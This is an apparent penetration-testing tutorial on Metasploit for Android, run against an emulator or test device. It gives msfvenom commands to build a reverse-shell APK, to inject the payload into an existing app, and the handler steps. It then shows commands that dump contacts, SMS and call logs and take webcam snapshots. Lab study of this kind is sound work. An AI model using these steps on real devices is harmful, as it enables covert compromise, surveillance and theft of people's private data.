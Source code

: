 # Metasploit For Android

## DESCRIPTION

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing. It is owned by Boston, Massachusetts-based security company Rapid7.

Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine.

## PREREQUISITES

1. Metasploit

2. adb(Android debug bridge)

3. Genymotion/Android device

## Exploitation to get an android reverse shell
Connect to the remote target device(genymotion/android) using adb

![](https://github.com/v1ns3c/Write-ups/blob/b8eb5b3375fe3ebeb7c3236309f3b684487479ba/Images/Documentations/Metasploit_for_Android/0_1.jpeg)

### 1) Steps to generate an apk with the reverse_tcp payload
Go to ‘opt/metasploit-framework/bin’ and enter the following command to generate an apk

$ ./msfvenom -p android/meterpreter/reverse_tcp LHOST=[localhost ip] LPORT=4444 -o [destination path/test.apk]

![](https://github.com/v1ns3c/Write-ups/blob/efa9b7c48ef35f5b35c27813c16c9c08a0e2a4ed/Images/Documentations/Metasploit_for_Android/1.jpg)
![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/2.png)

Install the apk generated on the target device(genymotion/android)

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/3.jpg)
![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/4.png)

Go to ‘opt/metasploit-framework/bin’ and follow the steps to get the reverse shell

$ ./msfconsole

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/5.jpg)

$ use exploit/multi/handler

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/6.png)


$ set payload android/meterpreter/reverse_tcp

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/7.png)

$ show options

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/8.png)

$ set LHOST [localhost ip]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/9.png)

$ exploit ‘or’ run

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/10.png)

Click on the test.apk application in the remote target device(genymotion/android) to get the reverse shell

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/11.png)

$ help ‘or’ ?

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/12.png)

$ dump_contacts

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/13.png)

$ dump_sms

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/14.png)

$ dump_calllog

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/15.png)

Go to the ‘metasploit-framework’ folder to get the dumps

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/16.jpg)

$ cat [calllog.txt]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/17.jpg)

$ cat [contacts.txt]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/18.jpg)

$ cat [sms.txt]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/19.jpg)

Commands for webcam

$ webcam_list

$ webcam_snap 1 ‘or’ 2

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/20.jpg)

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/21.jpg)

### 2) Steps to inject reverse_tcp payload in an existing app(diva-beta.apk)

Go to ‘opt/metasploit-framework/bin’ and enter the following command

$ ./msfvenom -x [apk path/apkname.apk] -p android/meterpreter/reverse_tcp LHOST=[localhost ip] LPORT=4444 -o [destination path/test.apk]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/22.jpg)

Install the app in the device and repeat the msfconsole steps as shown earlier to get the reverse shell.

## Extra Commands for metasploit

$ show exploits (Get all exploits till date)

$ search [any random keyword]

(ex- search android- to get all exploits related to android)

$ info <exploit>

### Thanks for reading!





